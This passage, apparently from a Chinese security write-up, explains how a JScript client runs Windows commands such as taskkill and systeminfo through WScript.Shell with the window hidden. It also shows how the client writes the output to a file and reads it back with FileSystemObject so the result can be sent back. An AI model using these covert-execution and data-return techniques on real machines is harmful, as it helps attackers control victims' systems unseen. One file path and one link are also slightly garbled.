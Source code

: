 run方法其实后面还可以加参数指示该窗口能否被看见

所以在执行比如taskkill的命令就可以使用

```
new ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true)

```

避免弹出黑框

> 注：  
> `intWindowStyle`参数的说明中提到“Note that not all programs make use of this information.”  
> 例子之一就是用run方法来执行systeminfo这种需要等待的cmd命令是无法隐藏窗口的

**6、如何隐蔽执行systeminfo并获取回显**

参考了如下资料：  
[WooYun: 搜狗浏览器远程命令执行之五](http://drops.com:8000/%3Ca%20target=)">[WooYun: 搜狗浏览器远程命令执行之五](http://www.wooyun.org/bugs/wooyun-2015-097380)

如果使用exec方法，虽然可以获取到回显，但是利用window.moveTo(-1000,-1000)无法移动弹出的黑框

而使用run方法虽然可以移动弹出的黑框，但是无法获得回显

综合这两种方法，最后我们只能退而求其次，使用run方法将执行命令回显的结果输出到文件中，然后再通过读取文件来获取结果

具体实现如下：

(1)使用run方法将systeminfo回显的结果输出到文件中c\test\a.txt

示例代码：

```
new ActiveXObject("WScript.Shell").Run("cmd /c systeminfo >>c\test\a.txt",0,true)

```

(2)读取文件并回传

示例代码：

```
fso1=new ActiveXObject("Scripting.FileSystemObject");
f=fso1.OpenTextFile(d,1);
g=f.ReadAll();
f.Close();

```

通过调用`new ActiveXObject("Scripting.FileSystemObject")`读取回显内容，然后再回传信息

**（相关细节可参照结尾提供的参考代码）**

**7、解决连接超时的问题**

通过以上的分析，如果要解决连接超时的问题，需要对Clinet执行的命令添加如下功能：

1.  捕获错误消息
2.  进程自动退出
3.  全过程不弹黑框
